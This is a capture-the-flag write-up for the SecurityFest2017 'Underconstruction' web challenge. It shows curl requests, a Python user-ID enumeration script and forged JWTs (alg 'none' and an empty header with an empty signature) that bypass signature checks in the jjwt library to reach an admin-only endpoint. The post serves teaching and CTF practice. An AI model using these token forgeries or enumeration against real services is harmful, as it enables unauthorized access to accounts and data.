 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
title: SecurityFest2017 - Underconstruction
tags: jwt
mathjax: false
imagefeature: 
description: SecurityFest2017 - Underconstruction
category: Web Exploitation
chart: null
---
```



## Problems

```
Under Construction! Please protect your head, wear a hardhat.
Solves: 12
Service: http://web.ctf.rocks:8080
Author: Kits / weckzen
```


## Writeup

at this web challenges we can read in the source code at root path

```html
<!-- I don't know the status of the front end but the back end is coming along nicely. Try /login with {"username": "user", "password":"password"} -->
```

using this curl to login 
```
➔ curl -H "Content-Type: application/json" \
-X POST -d '{"username":"user","password":"password"}' \
http://web.ctf.rocks:8080/login
```

and we get this response 
```
< HTTP/1.1 200 
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY
< Content-Length: 51
< Date: Fri, 02 Jun 2017 03:23:30 GMT
< 
* Connection #0 to host web.ctf.rocks left intact
{"userId":"52","authorizedURLs":["/login","/apis"]}
```

information we get is UserID:52 and authorizedURLs: ['/login','/apis'] , and we got authorization header 
with JWT (Json Web Token).

`eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY`
jwt have 3 part `<header>.<payload>.<signature>` 

```
Header : 
➔ echo -n eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}% 

Payload : 
➔ echo -n eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0 | base64 -d
{"user":"user","exp":1497237810}

Signature :
*Signature is constructed using this algorithm 

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
secret
)

*Concatenating base64 header and payload with "." and encrypt with some custom secret string

```

let's trying what /apis endoint does with this curl.

```
➔ curl -H "Content-Type: application/json" \
-X GET \         
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' http://web.ctf.rocks:8080/apis
{"timestamp":1496374182620,"status":400,"error":"Bad Request","exception":"org.springframework.web.bind.MissingServletRequestParameterException","message":"Required Integer parameter 'userId' is not present","path":"/apis"}% 
```

missing parameter `userId`

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/apis?userId=52" 
{"urls":["/login","/apis"],"id":52,"user":"user"}
```

using some python to enumurate other users urls.

```python
import requests
import json

url = "http://web.ctf.rocks:8080/apis"



payload = "{\"username\": \"user\", \"password\":\"password\"}"
headers = {
    'content-type': "application/json",
    'cookie': "JSESSIONID=4B17338B92DFAF214BAF7D40F29FC561",
    'authorization': "Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5ODI2MH0.FwX2y37d7C1eQdiLgrsyCoWc-PbMb_O4KfKT3KtpQZw",
    'cache-control': "no-cache",
    'postman-token': "c8908859-4423-0bf5-1049-db1bc7ffcc27"
    }


for x in range(100):
    querystring = {"userId":x}
    response = requests.request("GET", url, data=payload, headers=headers, params=querystring)
    result = json.loads(response.text)
    print(result['urls'], x, result['user'])
```

get this result

```
([u'/login', u'/apis', u'/supersecretflagresource'], 0, u'admin')
([u'/login', u'/apis'], 1, u'Patrik')
([u'/login', u'/apis'], 2, u'Joakim')
([u'/login', u'/apis'], 3, u'Joakim')
([u'/login', u'/apis'], 4, u'Joakim')
([u'/login', u'/apis'], 5, u'Joakim')
([u'/login', u'/apis'], 6, u'Joakim')
([u'/login', u'/apis'], 7, u'Joakim')
([u'/login', u'/apis'], 8, u'Joakim')
([u'/login', u'/apis'], 9, u'Joakim')
([u'/login', u'/apis'], 10, u'Joakim')
```

we got some interesting urls `/supersecretflagresource`.
but we can't access it directly because they validating our Authorization header JWT is not Admin

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374542889,"status":403,"error":"Forbidden","message":"Access is denied","path":"/supersecretflagresource"}
```

I am not solving this while the competition but trying to documenting this is a good challenge.
if we change the JWT payload part to `{"user":"admin","exp":1497237810}` this will trigger exception because
the signature validation is error.

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcyMzc4MTB9.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374872312,"status":500,"error":"Internal Server Error","exception":"io.jsonwebtoken.SignatureException","message":"JWT signature does not match locally computed signature. JWT validity cannot be asserted and should not be trusted.","path":"/supersecretflagresource"}
```

so after reading some writeup there are 2 ways to bypass this restriction :
1. change the header algorithm to none and empty signature the payload `{"user":"admin","exp":1497099449}` `<header>.<payload>.`
2. using empty header and empty signature and change the payload to `{"user":"admin","exp":1497099449}` `.<payload>.`

the first way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

second way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer .eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

i am prefer the second way from here `https://losfuzzys.github.io/writeup/2017/05/31/SCTF2017-underconstruction/`
and the author say will remove the confusing part at v1.0 `https://github.com/jwtk/jjwt/issues/212`

so to get the flag just open `https://kits.se?kokitotsos` and fire up console run the javascript function

```js
function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}
```


*Nb : i am trying >12Hour cracking the password of signature to construct a valid signature but got nothing

Flag : `SCTF{lolKOKITOTSOS}`